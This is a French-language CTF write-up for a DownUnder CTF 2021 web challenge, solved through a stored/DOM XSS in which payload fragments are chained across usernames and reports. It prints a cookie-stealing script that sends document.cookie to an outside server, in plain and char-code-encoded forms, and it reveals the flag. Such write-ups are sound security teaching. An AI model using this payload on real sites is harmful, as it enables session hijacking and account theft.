




# Writeup for the challenge **_`x1337 Sk1d R3p0rt3r`_** from DownUnder CTF 2021
----

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`x1337 Sk1d R3p0rt3r`** |
| Category: | **`Web`** |
| Points: | **`232pts`**|
| Author: | **`Xesh`**|

## Description:
 Pesky sk1dz everywhere, they are being taken offline left right and centre! It looks like th3 sk1dz have been reporting eachother on this site, something something cyber justice?

---

- ## Solution

Pour ce challenge, on se retrouve tout d'abord sur une page d'accueil.

Après s'être inscrit et connecté on arrive sur le endpoint `/dashboard`

 

Plusieurs  possibilités s'offrent à nous:
###### **1.**  Créer un report
###### **2.** Changer son nom d'utilisateur

---

### Analyse du report
On tente d'abord de créer un report avec un texte aléatoire.

On se retrouve alors sur la page détaillant ce dernier.

 


Intéréssant, on peut voir un boutton `Send Report to Admin`, ce genre de feature est généralement présente lorsqu'il est question d'exploiter une faille **XSS**.

Avec cette info en tête essayons une injection classique dans le champs report.

```html
<script> alert('test') </script>
```

Rien de spécial le champs ne semble pas vulnérable au injection XSS.
 

---

### Analyse du nom d'utilisateur
Essayons maintenant d'insérer le payload dans le nom d'utilisateur.
 

Très bien, alors tentons un simple tag ```<script>```
 
 
Pas de soucis cette fois, vérifions donc une potentielle vulnérabilité XSS dans le report via le nom d'utilisateur.
 
 
Haha, il semble que cette fois notre injection ai marché, regardons le code source:

 

Plusieurs choses sont à noter:

- Notre balise `<script>` a bien été injecter dans le code **HTML**
- On retrouve nos anciens reports dans cette balise
- On peut voir que les charactère **`<`**, **`>`** et **`"`** sont échappés quand ils ont été inséré dans le report

Il semblerait que nous sommes face à une **XSS DOM-Based**, ce type de XSS consiste à exploiter une partie de code HTML pour pouvoir réussir à executer un payload

Jusqu'ici nous savons qu'il est seulement possible d'injecter des balises dans notre nom d'utilisateur mais que nous sommes limités à 10 caractères

Pour le code javascript, il est probablement possible d'utiliser le contenu du report à condition de réussir à enlever le code HTML présent et de ne pas utiliser de string

Commencons par le code HTML problématique

Il se situe à deux endroit: entre la balise `<script>` et le payload ainsi qu'entre le le payload et la balise `</script>`

Heureusement que le javascript permet d'ajouter des commentaires multilignes grâce à `/*` et `*/`

Placons alors ces commentaires aux endroit adequats, pour cela, nous allons devoir changer plusieurs fois de nom d'utilisateur
1. On change le nom d'utilisateur par `*/</script` (le dernier `>` est ajouté automatiquement gràce au code HTML du site) et on envoie le report avec une valeur quelqueconque
2. On change le nom d'utilisateur pour le remettre comme avant et on insère la deuxième partie du payload dans le report
Pour cette partie il est necessaire de trouver comment récupérer une string sans passer les guillements, par chance le javascript dispose de la fonction `String.fromCharCode()`" qui prend une ou plusieurs valeurs décimales et renvoie une string basée sur les codes ascii correspondant, dans notre exemple`'test' = String.fromCharCode(116, 101, 115, 116)`
Notre payload sera donc `*/alert(String.FromCharCode(116, 101, 115, 116)/*`
3. Pour finir on change une dernière fois notre nom d'utilisateur par `<script>/*` et on envoie un report


C'est y est, on a bien notre pop-up, le DOM est bien exploité et ressemble à cela

```html
<script>/*garbage html*/ alert(String.FromCharCode(116, 101, 115, 116) /*garbage html*/</script>
```

On passe maintenant à la vraie exploitation avec un payload visant les cookie:
```html
<script> window.location = 'https://my-server.com/?cookie=' + document.cookie </script>
```

Qui se transforme en
```html
<script> window.location = String.FromCharcode(104, 116, 116, 112, 115, 58, 47, 47, 109, 121, 45, 115, 101, 114, 118, 101, 114, 46, 99, 111, 109, 47, 63, 99, 111, 111, 107, 105, 101, 61) + document.cookie </script>
```

On à plus qu'à récupérer le cookie de l'admin et retourner sur le dashboard

Et bim, dans la note de l'admin se trouve le flag : **`DUCTF{xxX_x55_4_1337_h4x0rz_Xxx}`** 